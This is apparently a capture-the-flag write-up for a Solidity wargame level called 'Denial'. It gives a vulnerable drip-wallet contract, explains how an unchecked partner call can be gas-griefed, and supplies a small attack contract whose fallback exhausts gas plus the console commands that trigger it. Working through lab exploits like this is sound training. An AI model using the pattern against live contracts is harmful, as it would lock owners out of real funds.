 # Denial

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.
If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds) you will win this level.

```javascript
pragma solidity ^0.4.24;

contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = 0xA9E;
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance/100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call.value(amountToSend)();
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    function() payable {}

    // convenience function
    function contractBalance() view returns (uint) {
        return address(this).balance;
    }
}
```

Keep eyes on the level requirement, according `withdraw()` in this contract will withdraw 1% to recipient and 1% to owner, our mission is to make `owner.transfer(amountToSend);` fail.

Therefore, if we deploy a contract which own a callback function will `assert()` a hardcode false statement, that will run out all the gas and stop all incomming transactions. (not matter with `timeLastWithdrawn = now;` and `withdrawPartnerBalances[partner] += amountToSend;` )

```javascript
pragma solidity ^0.4.24;

contract DenialAttack {
    function () payable {
        // consume all the gas
        assert(1 == 2);
    }
}
```

Set contract address which you deploy then call instance's `withdraw()` to send ether and trigger gas-consume-all machenism.

```javascript
await contract.contractBalance()
await contract.setWithdrawPartner(0x5e1078ab3a33efbbd6bb28bacd44d3e4c2ae69bf)
await contract.withdraw()
await contract.contractBalance()
```

![](https://i.imgur.com/ylk1wEt.png)
![](https://i.imgur.com/6MUTZHS.png)
